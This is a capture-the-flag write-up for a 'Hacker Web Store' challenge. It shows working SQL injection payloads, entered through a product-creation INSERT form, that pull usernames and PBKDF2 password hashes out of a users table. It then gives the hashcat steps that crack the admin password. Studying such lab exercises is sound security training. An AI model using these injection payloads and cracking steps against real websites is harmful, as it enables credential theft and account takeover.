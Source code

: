 # Hacker Web Store
**Description:** Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

## Solution

1. Going to the website, it is very simple, only 3 tabs. I see I can Create Product or Login. Immediately I go to create a product and enter ' to see if it fails, maybe sqli, and it does.

    ```SQL
    Products

    Error in Statement: INSERT INTO Products (name, price, desc) VALUES (''', '', '');

    unrecognized token: "''', '', '');"

    ```

2. I know its a sqli challenge now. I want to now get the users table and possibly login, however, I can only get a few names at time though (at least with my sqli skills).

    first i set the product name to this (in the create product form) to get the number of user accounts (it returns 3)

    ```SQL
    ','1',(SELECT COUNT(name) from users)); -- -
    ```

    sweet so i only have to run this 3 more times to get the username and password now. So I create 3 more products

    ```SQL
    ',(SELECT name from users where id =1),(SELECT password from users where id=1 )); -- -
    ```
    ```SQL
    ',(SELECT name from users where id =2),(SELECT password from users where id=2 )); -- -
    ```
    ```SQL
    ',(SELECT name from users where id =3),(SELECT password from users where id=3 )); -- -
    ```

    i didn't know the id field existed, but it did thankfully, so I did id 1, 2 and 3 and got these results

    ```
    Joram pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
    James pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2
    website_admin_account pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
    ```

    now, I'm going to take a wild guess and assume that i need the `website_admin_account`

3. Now we can get our trusty buddy hashcat and use that with the password list attached with the challenge

    this uses sha256 so we need to get the hash-type, which is 

    ```
    10900 | PBKDF2-HMAC-SHA256  
    ```  

    1. we also need to fix up our hash so that we can use it for hashcat (thanks to this https://github.com/hashcat/hashcat/issues/1583)

        we must bas64 encode the salt and hash. it will look like this (I used CyberChef but don't forget to load hash as hex then base64)

        ```
        sha256:600000:TVNvazM0ekJ1Zm85ZDF0Yw==:sq36+u7UWfkDQB7BZW+do29LTAilBCfseEFXBRO/jlc=
        ```

    1. now we can run hashcat with our wordlist

    ```
    .\hashcat.exe -m 10900 "hash.txt" "password_list.txt"
    ```

    hashcat returns the password `ntadmin1234`

4. login on the website with website_admin_account:ntadmin1234 to get flag

![hackerman](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNWNjN280cjduNmdnY2EzbjU4emttc2o3NDl4dGtxM2VqaTc3ajU1MyZlcD12MV9naWZzX3NlYXJjaCZjdD1n/3knKct3fGqxhK/giphy.gif)